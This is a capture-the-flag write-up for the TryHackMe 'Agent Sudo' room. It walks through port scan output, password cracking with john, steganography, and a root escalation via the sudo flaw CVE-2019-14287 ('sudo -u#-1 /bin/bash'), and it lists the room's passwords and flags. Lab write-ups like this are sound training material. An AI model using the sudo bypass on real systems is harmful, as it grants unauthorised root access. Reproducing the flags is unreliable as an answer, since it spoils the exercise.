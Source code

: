 # Agent Sudo 

## Enumerate

```
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com

[~] The config file is expected to be at "/home/gabriel/snap/rustscan/28/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.232.253:21
Open 10.10.232.253:22
Open 10.10.232.253:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] 
Starting Nmap 7.60 ( https://nmap.org ) at 2021-04-09 21:46 BST
NSE: Loaded 146 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 21:46
Completed NSE at 21:46, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 21:46
Completed NSE at 21:46, 0.00s elapsed
Initiating Ping Scan at 21:46
Scanning 10.10.232.253 [2 ports]
Completed Ping Scan at 21:46, 0.03s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 21:46
Completed Parallel DNS resolution of 1 host. at 21:46, 0.03s elapsed
DNS resolution of 1 IPs took 0.04s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 21:46
Scanning 10.10.232.253 [3 ports]
Discovered open port 21/tcp on 10.10.232.253
Discovered open port 80/tcp on 10.10.232.253
Discovered open port 22/tcp on 10.10.232.253
Completed Connect Scan at 21:46, 0.04s elapsed (3 total ports)
Initiating Service scan at 21:46
Scanning 3 services on 10.10.232.253
Completed Service scan at 21:46, 6.09s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.232.253.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 21:46
Completed NSE at 21:46, 2.71s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 21:46
Completed NSE at 21:46, 0.00s elapsed
Nmap scan report for 10.10.232.253
Host is up, received syn-ack (0.034s latency).
Scanned at 2021-04-09 21:46:46 BST for 10s

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5hdrxDB30IcSGobuBxhwKJ8g+DJcUO5xzoaZP/vJBtWoSf4nWDqaqlJdEF0Vu7Sw7i0R3aHRKGc5mKmjRuhSEtuKKjKdZqzL3xNTI2cItmyKsMgZz+lbMnc3DouIHqlh748nQknD/28+RXREsNtQZtd0VmBZcY1TD0U4XJXPiwleilnsbwWA7pg26cAv9B7CcaqvMgldjSTdkT1QNgrx51g4IFxtMIFGeJDh2oJkfPcX6KDcYo6c9W1l+SCSivAQsJ1dXgA2bLFkG/wPaJaBgCzb8IOZOfxQjnIqBdUNFQPlwshX/nq26BMhNGKMENXJUpvUTshoJ/rFGgZ9Nj31r
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHdSVnnzMMv6VBLmga/Wpb94C9M2nOXyu36FCwzHtLB4S4lGXa2LzB5jqnAQa0ihI6IDtQUimgvooZCLNl6ob68=
|   256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (EdDSA)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOL3wRjJ5kmGs/hI4aXEwEndh81Pm/fvo8EvcpDHR5nt
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 21:46
Completed NSE at 21:46, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 21:46
Completed NSE at 21:46, 0.00s elapsed
Read data files from: /snap/rustscan/28/usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.58 seconds
```
```
Dear agents,
Use your own codename as user-agent to access the site.
From,
Agent R
```

```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R 

```

**Questions**

    1. How many open ports?

3

    2. How do you redirect yourself to a secret page

user-agent

    3. What is the agent name?

chris

## Hash Cracking And Brute-Force

    1. FTP password

crystal

    2. ZIP password

alien

Found by using `strings` and `binwalk` on the `alien.jpg`. Then by using `zip2john` and `john` to crack the password.

```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

    3. Steg password?

Area51

(Found by `echo QXJlYTUx | base64 -d`)

```
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```
    
    4. Who is the other agent (in full name)?

James

    5. SSH password

hackerrules!

## Capture The User Flag

    1. What is the user flag?

b03d975e8c92a7c04146cfa7a5a313c7

    2. What is the incident of the photo called?

Roswell alien autopsy

## Privilege Escalation

    1. CVE number for the escalation?

CVE-2019-14287

```bash
james@agent-sudo:~$ sudo -l
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# 
```
    2. What is the root flag?

b53a02f55b57d4439e3341834d70c062

    3. (Bonus) Who is Agent R?

DesKel
